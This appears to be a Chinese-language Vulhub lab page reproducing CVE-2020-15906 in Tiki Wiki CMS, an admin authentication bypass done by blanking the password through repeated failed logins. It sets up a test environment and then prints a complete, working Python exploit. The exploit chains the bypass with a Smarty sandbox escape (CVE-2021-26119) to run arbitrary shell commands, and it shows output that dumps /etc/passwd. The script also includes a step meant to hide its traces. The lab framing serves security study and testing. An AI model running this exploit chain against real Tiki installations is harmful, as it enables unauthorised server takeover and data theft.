 # Tiki Wiki CMS Groupware 认证绕过漏洞 CVE-2020-15906

## 漏洞描述

Tiki Wiki CMS Groupware或简称为Tiki（最初称为TikiWiki）是一种免费且开源的基于Wiki的内容管理系统和在线办公套件。在如下这些版本21.2, 20.4, 19.3, 18.7, 17.3, 16.4前存在一处逻辑错误，管理员账户被爆破60次以上时将被锁定，此时使用空白密码即可以管理员身份登录后台。

参考链接：

- https://info.tiki.org/article473-Security-Releases-of-all-Tiki-versions-since-16-3
- https://github.com/S1lkys/CVE-2020-15906
- http://packetstormsecurity.com/files/159663/Tiki-Wiki-CMS-Groupware-21.1-Authentication-Bypass.html
- https://srcincite.io/pocs/cve-2021-26119.py.txt

## 环境搭建

Vulhub执行如下命令启动一个Tiki Wiki CMS 21.1：

> 需要通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/tiki-login_scr.php`可以看到其欢迎页面。

## 漏洞复现

我们可以使用https://srcincite.io/pocs/cve-2021-26119.py.txt中的[POC](https://github.com/vulhub/vulhub/blob/master/tikiwiki/CVE-2020-15906/poc.py)进行复现。该POC先使用CVE-2020-15906绕过认证，获取管理员权限；再使用Smarty的沙盒绕过漏洞（CVE-2021-26119）于后台执行任意命令：

```
python poc.py your-ip:8080 / id
```

![image-20220302153818245](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021538346.png)

注意，受到漏洞原理的影响，执行该POC会导致管理员账户被锁定。

## 漏洞POC

```python
#!/usr/bin/env python3
"""
Tiki Wiki CMS GroupWare Serverside Template Injection Remote Code Execution Vulnerability
This is a demonstration of CVE-2021-26119 (Smarty Template Engine template_object Sandbox Escape PHP Code Injection)
Written by: Steven Seeley of Qihoo 360 Vulcan Team
Exploit tested against: Tiki Wiki 20.3 (Tarazed)

Bug 1: CVE-2020-15906
    - An unauthenticated user can bypass the authentication by bruteforcing the admin account > 50 times and login with a blank password
    - Works on: <= 21.1 (UY_Scuti)
    
Bug 2: CVE-2021-26119 
    - An admin user can trigger a serverside template injection and gain remote code execution by escaping the sandbox of the Smarty Template Engine by leveraging the 'template_object' property
    - Works on: <= 22.2 (Corona_Borealis) and impacts Smarty <= 3.1.38 (latest)

# Notes

- *WARNING* This exploit will lock out the administrator account
- It was possible in older versions of Tiki Wiki (including 20.3) that you could:

  1. Edit Smarty templates with a user that had the 'tiki_p_edit_templates' privilege, but Tiki clued into this and has since disabled this 'feature' by default, see using [Risky preferences](https://doc.tiki.org/Risky-Preferences)
  2. Disable the Smarty sandbox entirely by unchecking the "Smarty Security" checkbox in the general security tab which is no longer possible.

  However it's still possible for an admin (or user with the 'tiki_p_admin' permission assigned) to add Smarty template syntax to the 'feature_custom_html_head_content' option under [Customization](http://doc.tiki.org/Customization) in the [Look and Feel](http://doc.tiki.org/Look-and-Feel) control panel menu. This is enough for attackers to escape the Smarty sandbox leveraging either CVE-2021-26119 or CVE-2021-26120 and execute arbitrary remote code.

# Example

researcher@incite:~/tiki$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id

researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
(+) blanking password...
(+) admin password blanked!
(+) getting a session...
(+) auth bypass successful!
(+) triggering rce...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/tiki-20.3
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

# References

- Maximilian Barz's poc at https://github.com/S1lkys/CVE-2020-15906
"""

import requests
import sys
import re

def auth_bypass(s, t, d):
    h = { "referer" : t }
    d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
    d["pass"] = "" # auth bypass is here
    r = s.post("%stiki-login.php" % t, data=d, headers=h)
    r = s.get("%stiki-admin.php" % t)
    assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

def black_password(s, t, d):
    uri = "%stiki-login.php" % t
    # setup cookies here
    s.get(uri)
    ticket = get_ticket(s, uri)
    # crafted especially so unsuccessful_logins isn't recorded
    for i in range(0, 51):
        r = s.post(uri, d)
        if("Account requires administrator approval." in r.text):
            print("(+) admin password blanked!")
            return
    raise Exception("(-) auth bypass failed!") 

def get_ticket(s, uri):
    h = { "referer" : uri }
    r = s.get(uri)
    match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
    assert match, "(-) csrf ticket leak failed!"
    return match.group(1)

def trigger_or_patch_ssti(s, t, c=None):
    # CVE-2021-26119
    p = { "page": "look" }
    h = { "referer" : t }
    bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
    d = {
        "ticket" : get_ticket(s, "%stiki-admin.php" % t),
        "feature_custom_html_head_content" : bypass if c else '',
        "lm_preference[]": "feature_custom_html_head_content"
    }
    r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
    r = s.get("%stiki-index.php" % t)
    if c != None:
        assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
        cmdr = r.text.split("startrce")[1].split("endrce")[0]
        print(cmdr.strip())

def main():
    if(len(sys.argv) < 4):
        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
        print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
        return
    p = sys.argv[2]
    c = sys.argv[3]
    p = p + "/" if not p.endswith("/") else p
    p = "/" + p if not p.startswith("/") else p
    t = "http://%s%s" % (sys.argv[1], p)
    s = requests.Session()
    print("(+) blanking password...")
    d = {
        'user':'admin', 
        'pass':'trololololol',
    }
    black_password(s, t, d)
    print("(+) getting a session...")
    auth_bypass(s, t, d)
    print("(+) auth bypass successful!")
    print("(+) triggering rce...\n")
    # trigger for rce
    trigger_or_patch_ssti(s, t, c)
    # patch so we stay hidden
    trigger_or_patch_ssti(s, t)

if __name__ == '__main__':
    main()
```

